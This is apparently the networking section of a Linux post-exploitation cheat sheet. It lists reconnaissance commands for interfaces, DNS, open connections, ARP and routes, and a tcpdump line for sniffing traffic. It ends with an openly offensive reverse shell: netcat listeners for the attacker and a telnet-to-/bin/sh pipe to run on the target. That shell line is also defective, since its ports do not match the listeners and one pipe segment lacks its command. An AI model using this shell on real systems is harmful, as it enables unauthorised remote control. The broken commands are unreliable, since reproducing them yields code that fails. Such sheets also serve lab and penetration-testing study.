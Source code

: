 
Communications & Networking
What NIC(s) does the system have? Is it connected to another network?
```shell
/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
```


What are the network configuration settings? What can you find out about this network? DHCP server? DNS server? Gateway?
```shell
cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname
```


What other users & hosts are communicating with the system?
```shell
lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w
```


Whats cached? IP and/or MAC addresses
```shell
arp -e
route
/sbin/route -nee
```


Is packet sniffing possible? What can be seen? Listen to live traffic
# tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
```shell
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21
```


Have you got a shell? Can you interact with the system?
# http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
```shell
nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!
```
